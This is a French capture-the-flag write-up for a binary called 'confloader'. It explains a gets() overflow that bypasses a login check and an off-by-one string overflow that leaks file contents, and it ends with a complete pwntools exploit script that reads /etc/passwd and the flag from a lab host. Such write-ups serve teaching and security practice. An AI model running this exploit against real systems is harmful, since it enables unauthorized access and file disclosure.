

# Configuration Loader

Le programme commence par les `file stream` à 0, ça peut être intéressant quand on manipule des `IO_file_stream` mais ça n'est pas le cas ici donc on s'en fout ^^

La fonction intéressante est *login* car si elle renvoie autre chose que zéro, on va pouvoir accéder au menu de gestion de la configuration

## Bypass login

Cette fonction nous demande un code qu'elle compare avec un pass généré aléatoirement.  
Le générateur est initialisé avec `time(NULL)` donc si on connait la timezone du serveur, on peut calculer le pass.  

Mais on peut faire plus simple !
La récupération de l'entrée utilisateur se fait via `gets` ce qui nous permet de faire un buffer overflow sur le buffer de reception.  
Et si l'on regarde ce que l'on peut écraser avec cet overflow, on voit que le buffer de pass est juste dernière notre entrée.


Donc si l'on envoie deux fois la même chose, on passe le `strcmp` avec succès:  
```python
p = p64(0xc0febabe)
p += p64(0xc0febabe)

io.sendlineafter(b'code:  \n',p)
```

On pourrait également penser qu'il est possible de récupérer la main sur le flux d'exécution via ce BOF en écrasant le pointeur de retour de la fonction mais le programme a étét compilé avec le stack canary donc ça n'est pas possible.  

Il va donc falloir trouver une faille dans la gestion de la fonfiguration

## Gestion de la config

L'analyse de la *jump table* n'a pas fonctionné sur Ghidra, j'ai donc du aller regarder directement en assembleur ce qu'il se passe en fonction de l'entrée utilisateur.  

Pour chaque choix, les fonctions appélées sont:
- 1: check_ram
- 2: check_integrity
- 3: push_config
- 4: read_config
- 5: exit

Les deux premiers ne font rien à part afficher du texte.  
*push_config* affiche le contenu de la variable globale `path`.  
*read_config* nous demande un chemin vers un fichier de config, l'enregistre dans `path` et lis son contenu dans `content`.

La vulnérabilité vient du fait que l'on peut donner un chemin d'une taille jusqu'à 64 caractères alors que le buffer de reception fait également 64 caractères. Donc le `\x00` indiquant la fin de la string va overflow.  
Et comme par hasard, ce qui se trouve juste après `path` est `content`



Au moment d'enregister `path` le programme va ajouter un `\x00` à `path[64]` qui équivaut à `content[0]`. Et donc lors de la lecture du contenu de ce fichier va écraser ce 0.

Grâce à ça, l'affichage de `path` va nous afficher également `content` étant donné qu'il n'y as pas de fin de chaine pour `path`.

## Trouver le flag

Remplir le nom du chemin est assez simple car on peut ajouter autant de **/** qe l'on veut à un chemin sans que cela gêne linux.  
On sait qu'il est stocké quand le home de l'utilisateur. On va donc afficher le contenu de `/etc/passwd` pour trouver le nom de l'utilisateur puis récupérer le flag avec `/home/<user>/flag`

## Code
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./confloader')

host = args.HOST or '10.22.6.20'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

context.terminal = ['xfce4-terminal','-e']
gdbscript = '''
b *login+253
b *login+335
continue
'''.format(**locals())

# -- Exploit goes here --

io = start()
io.recvuntil(b'Done !\n')

# Bypass de la fonction check
p = p64(0xc0febabe) # input buffer de 8 octets
p += p64(0xc0febabe) # overflow du check buffer
io.sendlineafter(b'code:  \n',p)

# Exploit de la vuln dans read_config
io.sendlineafter(b'>>>',b'4')
filename = b'passwd'
p = b'/etc/' 
# On ajoute autant de '/' pour remplir le buffer
p += b'/' * (0x40-len(filename)-len(p)) + filename
io.sendafter(b'File path:', p)

# On affiche illégalement le contenu d fichier
io.sendlineafter(b'>>>',b'3')

# Exploit de la vuln dans read_config
io.sendlineafter(b'>>>',b'4')
filename = b'flag'
p = b'/home/ghoztadm' 
# On ajoute autant de '/' pour remplir le buffer
p += b'/' * (0x40-len(filename)-len(p)) + filename
io.sendafter(b'File path:', p)

# On affiche illégalement le contenu d fichier
io.sendlineafter(b'>>>',b'3')

io.interactive()
```